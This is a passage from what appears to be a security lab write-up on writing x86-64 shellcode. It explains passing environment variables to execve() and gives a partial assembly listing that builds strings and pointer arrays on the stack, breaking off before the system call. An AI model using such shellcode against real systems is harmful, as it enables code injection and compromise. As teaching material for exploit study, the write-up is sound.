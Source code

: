 ![Task 2.C.2](./img/Lab1/Task2.C.2.png)

### Task 2.D - Pass environment variables

Since the third parameter of the `argv` arguments is a pointer to the environment variables array, we explored the possibility of passing environment variables to our shellcode. To achieve this, we constructed the code accordingly, constructing an environment variable array on the stack, and stored the address of this array to the rdx register, before invoking `execve()` system call;

```text
section .text
    global _start
        _start:
            BITS 64
            jmp short two
        one:
            pop rbx                         ; rbx now holds the return address (base pointer
            xor rax, rax
            mov [rbx+12], al
            mov [rbx+22], al
            mov [rbx+32], al
            mov [rbx+69], al
            mov [rbx+70], rbx
            lea rcx, [rbx+13]
            mov [rbx+78], rcx
            lea rcx, [rbx+23]
            mov [rbx+86], rcx
            lea rcx, [rbx+33]
            mov [rbx+94], rcx
```